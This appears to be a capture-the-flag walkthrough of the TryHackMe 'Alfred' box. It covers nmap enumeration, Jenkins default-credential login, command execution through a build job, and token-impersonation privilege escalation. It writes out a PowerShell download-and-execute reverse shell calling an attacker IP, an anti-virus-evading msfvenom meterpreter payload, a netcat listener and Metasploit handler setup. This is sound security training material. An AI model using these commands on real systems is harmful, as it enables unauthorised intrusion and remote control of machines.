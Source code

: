 hello h4x0r, today i would be walking you through the process of pwning the alfred machine on THM.

#Enumeration 
first of all like all other machines, we must begin with an nmap scan. this allows us to discover all open ports and services running on our target machine.

```
nmap -sC -sV -T4 -oN scan -p- -P0 10.10.24.159
```

![[1.png]]

from the result of our scan, we can see that we have the following ports open on our target.

- 80 (http Microsoft IIS httpd 7.5)
- 3389 (RDP)
- 8080 (http  Jetty 9.4.z-SNAPSHOT)

since we have couple web server on our target let's try to enumerate them for possible ways to gain initial access.

so we can simply head over to our web browser to view the webpage hosted by our web server.
![[2.png]]

from the first web server running on port 80 we can see a page. attempting to view the source code gives us nothing useful so lets move to the next port(8080).

navigating to http://10.10.24.159:8080 reveals the login panel for the jenkins application.
![[3.png]]

now Jenkins is **a Java-based open-source automation platform with plugins designed for continuous integration**. It is used to continually create and test software projects, making it easier for developers and DevOps engineers to integrate changes to the project and for consumers to get a new build.

with the login form we can attempt to check for misconfigurations by simply inputting the default user credentialss for the jenkins application.

![[4.png]]

from a quick google search we can tell that the default credentials for the jenkins application is ***admin:admin***.

![[5.png]]

now using this credentials, we are able to login. but how do we gain initial access?

we are told to find a feature that allows us to execute commands on the underlying system. 

we can take note of a job called project on the dashboard.

![[6.png]]

clicking on the project item, allows us o edit and make some changes to it.

![[7.png]]

now we click on the configure tab, because this allows us to execute system commands on the server.

we have successfully found a feature that allows us to execute commands. but to gain initial access we need to download and transfer a powershell reverse shell over to the target system.

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```


![[8.png]]

with the rev shell script successfully downloaded to our attacker machine now start up a simple http server using python. this allows us to serve the file on a local server.

```
python3 -m http.server 4444
```

![[9.png]]

In order to transfer the powershell script into the web server, we would run the following command using the  Configure feature on the server 

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.215.120:4444/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.215.120 -Port 8000
```

![[10.png]]

now we setup a netcat listener to catch the reverse shell connection.

```
nc -lnvp 8000

```

after clicking on apply move back to the previous page and click on the ***build now tab*** .

![[11.png]]

we can now see that our build has began running.

![[12.png]]


heading back to our terminal we have successfully gotten the file over to the server and executed it to give us a reverse shell.

![[13.png]]


![[14.png]]

to find the user flag lets navigate through the directories.

we navigate over to the Desktop directory of the user bruce and we have successfully found the user flag!!

![[15.png]]

you can view the file by using the following command 

```
type user.txt
```

**Privilege Escalation** 

to begin the privilege escalation process, we are asked to generate a Windows meterpreter reverse shell using msfvenom.
to do this, we make use of the following command

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o wannacry.exe

```

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

with our payload ready, let's transfer it over to the target system using the same process as earlier on.

![[16.png]]

we head over back to the project job and click on the configure tab. now we paste the following code in the command text area.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.215.120:444/wannacry.exe','wannacry.exe')"

```



![[17.png]]

now we click on apply and then head back to the previous page and click on build now. this would enable our script to get downloaded over to the server.


![[18.png]]

![[19.png]]

now before running the program we must set up a handler using metasploit.

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-thm-ip
set LPORT listening-port

```

![[20.png]]

with our rev shell on the target system lets move it over to the Temp directory.

```
cd C:/Windows/Temp
```

```
Move-Item -Path "C:\Program Files (x86)\Jenkins\workspace\project\wannacry.exe" -Destination "C:\Windows\Temp"
```

![[21.png]]


now we can run the program by running the following command

```
Start-Process "wannacry.exe"
```

we've successfully gotten a meterpreter shell

![[22.png]]


now we can view all privileges of the user using the following command

```
whoami /priv
```


![[23.png]]

we are presented with a list of privileges but only a couple of them are enabled

- ***SeDebugPrivilege*** 
- ***SeChangeNotifyPrivilege***
- ***SeImpersonatePrivilege***
- **SeCreateGlobalPrivilege** 

Let's use the incognito module that will allow us to exploit this vulnerability.
we can now exit our shell back to the meterpreter shell and run the following command to start up incognito

```
load incognito 
```

![[24.png]]

now we list tokens using the following command

```
list_tokens -g
```

to escalate our privilege we need to impersonate the administrators token. 

```
impersonate_token "BUILTIN\Administrators"

```

![[26.png]]

Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).

Ensure that you migrate to a process with correct permissions (the above question's answer). The safest process to pick is the services.exe process. First, use the _ps_ command to view processes and find the PID of the services.exe process. Migrate to this process using the command 

```
 migrate PID-OF-PROCESS
```


![[27.png]]

now we can read the content of the root.txt file located at  **C:\Windows\System32\config** 

```
cat root.txt
```


![[29.png]]

and thats all for this box!!!